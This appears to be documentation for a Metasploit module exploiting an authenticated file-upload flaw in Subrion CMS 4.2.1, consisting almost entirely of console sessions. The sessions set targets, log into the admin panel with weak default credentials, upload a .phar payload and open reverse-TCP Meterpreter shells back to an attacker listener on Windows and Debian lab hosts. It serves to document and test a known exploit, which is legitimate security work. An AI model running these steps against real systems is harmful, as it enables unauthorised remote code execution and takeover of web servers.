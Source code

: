 ```
[+] The target appears to be vulnerable. However, this version check does not guarantee that the target is vulnerable, since a fix for the vulnerability can easily be applied by a web admin.
[*] Connecting to Subrion Admin Panel login page to obtain CSRF token...
[+] Successfully obtained CSRF token: xjUlGn2ZDOBA2ZhobPAmuC17wZXpVxyjVsLBqF54
[*] Logging in to Subrion Admin Panel at: http://192.168.29.1/panel/ using credentials admin:123456
[+] Successfully logged in as Administrator.
[*] Preparing payload...
[*] Sending POST data...
[+] Successfully uploaded payload at: http://192.168.29.1/uploads/wvkjygteyz.phar
[*] Executing 'wvkjygteyz.phar'... This file will be deleted after execution.
[*] Sending stage (39927 bytes) to 192.168.245.1
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.1:51466) at 2023-07-30 03:24:33 -0400
[+] Successfully executed payload: http://192.168.29.1/uploads/wvkjygteyz.phar

meterpreter > getuid
Server username: SYSTEM
meterpreter > sysinfo
Computer    : DESKTOP-50BU5J8
OS          : Windows NT DESKTOP-50BU5J8 10.0 build 19045 (Windows 10) AMD64
Meterpreter : php/windows
meterpreter > 
```

### Subrion CMS v4.2.1 with LAMP Stack on Debian 10

* Using PHP paylod - default TARGET 0

```
msf > use exploit/multi/http/subrion_cms_file_upload_rce
[*] Using configured payload php/meterpreter/reverse_tcp
msf exploit(multi/http/subrion_cms_file_upload_rce) > set RHOSTS 192.168.245.133
RHOSTS => 192.168.245.133
msf exploit(multi/http/subrion_cms_file_upload_rce) > set LHOST eth0
LHOST => 192.168.245.128
msf exploit(multi/http/subrion_cms_file_upload_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://192.168.245.133:80/panel/
[+] Target is running Subrion CMS.
[*] Checking Subrion CMS version...
[+] Target is running Subrion CMS Version 4.2.1.
[!] This version check does not guarantee that the target is vulnerable, since a fix for the vulnerability can easily be applied by a web admin.
[+] The target appears to be vulnerable.
[*] Connecting to Subrion Admin Panel login page to obtain CSRF token...
[+] Successfully obtained CSRF token: mKMUcUoMJjRxTxOog8DXxeFxLGQVU7rHSX6slM85
[*] Logging in to Subrion Admin Panel at: http://192.168.245.133/panel/ using credentials admin:admin
[+] Successfully logged in as Administrator.
[*] Preparing payload...
[*] Sending POST data...
[+] Successfully uploaded payload at: http://192.168.245.133/uploads/htwgmjllep.phar
[*] Executing 'htwgmjllep.phar'... This file will be deleted after execution.
[*] Sending stage (39927 bytes) to 192.168.245.133
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.133:53698) at 2023-07-21 14:21:17 -0400
[+] Successfully executed payload: http://192.168.245.133/uploads/htwgmjllep.phar

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : debian
```